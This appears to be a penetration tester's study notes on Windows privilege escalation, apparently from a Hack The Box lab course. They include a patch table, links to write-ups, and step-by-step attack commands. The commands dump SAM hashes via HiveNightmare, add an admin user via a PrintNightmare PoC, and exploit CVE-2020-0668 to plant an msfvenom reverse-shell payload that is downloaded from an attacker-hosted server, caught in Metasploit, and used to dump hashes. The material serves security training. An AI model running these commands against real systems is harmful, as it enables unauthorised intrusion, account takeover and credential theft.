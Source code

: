 Windows vulnerabilities: https://msrc.microsoft.com/update-guide/vulnerability

Microsoft Update Catalog: https://www.catalog.update.microsoft.com/Search.aspx?q=KB5000808

Base OS	XP				2003			Vista			2008		7		2008R2		8	8.1	2012	2012R2	10	2016
Service Pack	SP0	SP1	SP2	SP3	SP0	SP1	SP2	SP0	SP1	SP2	SP0	SP2	SP0	SP1	SP0	SP1						
MS03-026	•	•	•	•	•	•	•															
MS05-039	•	•	•		•	•																
MS08-025	•	•	•		•	•	•	•	•		•											
MS08-067	•	•	•	•	•	•	•	•	•		•											
MS08-068	•	•	•	•	•	•	•	•	•		•											
MS09-012	•	•	•	•	•	•	•	•	•		•											
MS09-050								•	•	•	•	•										
MS10-015			•	•	•	•	•	•	•	•												
MS10-059								•	•	•	•	•	•		•							
MS10-092								•	•	•	•	•	•		•							
MS11-011				•	•	•	•	•	•	•	•	•	•		•							
MS11-046				•	•	•	•	•	•	•	•	•	•	•	•	•						
MS11-062				•	•	•	•															
MS11-080				•	•	•	•															
MS13-005								•	•	•	•	•	•	•	•	•	•		•			
MS13-053				•	•	•	•	•	•	•	•	•	•	•	•	•	•		•			
MS13-081			•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		•			
MS14-002				•	•	•	•															
MS14-040					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS14-058					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS14-062					•	•	•															
MS14-068					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS14-070					•	•	•															
MS15-001													•	•	•	•	•	•	•	•		
MS15-010					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS15-051					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS15-061					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS15-076					•	•	•	•	•	•	•	•	•	•	•	•	•	•	•	•		
MS15-078								•	•	•	•	•	•	•	•	•	•	•	•	•		
MS15-097								•	•	•	•	•	•	•	•	•	•	•	•	•	•	
MS16-016								•	•	•	•	•	•	•	•	•						
MS16-032								•	•	•	•	•	•	•	•	•		•	•	•		
MS16-135								•	•	•	•	•	•	•	•	•		•	•	•	•	•
MS17-010								•	•	•	•	•	•	•	•	•	•	•	•	•	•	•
CVE-2017-0213: COM Aggregate Marshaler													•	•	•	•	•	•	•	•	•	•
Hot Potato													•	•	•	•	•	•	•	•	•	
SmashedPotato													•	•	•	•	•	•	•	•	•	


## Notable Vulnerabilities

- MS08-067: https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
- MS17-010: (EternalBlue) https://0xdf.gitlab.io/2021/05/11/htb-blue.html
- ALPC Task Scheduler 0-Day: https://snowscan.io/htb-writeup-hackback/
- CVE-2021-36934 HiveNightmare: (SeriousSam) https://github.com/GossiTheDog/HiveNightmare/blob/master/Mitigation.ps1, https://github.com/GossiTheDog/HiveNightmare/tree/master/Release, https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5

**Checking Permissions on the SAM File
```
icacls c:\Windows\System32\config\SAM
```
- Readable by BUILTIN\Users means it is vulnerable

**Performing Attack and Parsing Password Hashes
```
.\HiveNightmare.exe
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```
- Transfer the 3 files to host, then run second command


- CVE-2021-1675/CVE-2021-34527 PrintNightmare: https://github.com/calebstewart/CVE-2021-1675

**Checking for Spooler Service
```
ls \\localhost\pipe\spoolss
```
- If it does not exist, we will receive "path does not exist error"

**Adding Local Admin with PrintNightmare PowerShell PoC
```
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

**Confirming New Admin User
```
net user hacker
```


## Enumerating Missing Patches

**Examining Installed Updates
```
systeminfo
wmic qfe list brief
Get-Hotfix
```

**Viewing Installed Updates with WMI
```
wmic qfe list brief
```
- Use Microsoft Update Catalog to check dates

## CVE-2020-0668
https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/

**Checking Current User Privileges
```
whoami /priv
```

**After Building Solution

https://github.com/RedCursorSecurityConsulting/CVE-2020-0668
- Open in Visual Studio within a VM and build the solution, it will generate:
```
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```
- Then, we combine this with one of the following:
- https://github.com/itm4n/UsoDllLoader
- https://github.com/xct/diaghub
- Mozilla Maintenance Service runs as system and is startable by unprivileged users

**Checking Permissions on Binary
```
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- We have read and execute

**Generating Malicious Binary
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

**Hosting the Malicious Binary
```
python3 -m http.server 8080
```

**Downloading the Malicious Binary
```
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```
- We must do this twice because one get corrupted, and we will replace it

**Running the Exploit
```
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

**Checking Permissions of New File
```
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```
- WINLPE-WS02\htb-student:(F) means we have full control over the binary, so we can overwrite it with a non-corrupted version of our malicious binary

**Replacing File with Malicious Binary
```
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

**Metasploit Resource Script
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```
- Save to handler.rc

**Launching Metasploit with Resource Script
```
sudo msfconsole -r handler.rc
```

**Starting the Service
```
net start MozillaMaintenance
```

**Receiving a Meterpreter Session
```
getuid
hashdump
```
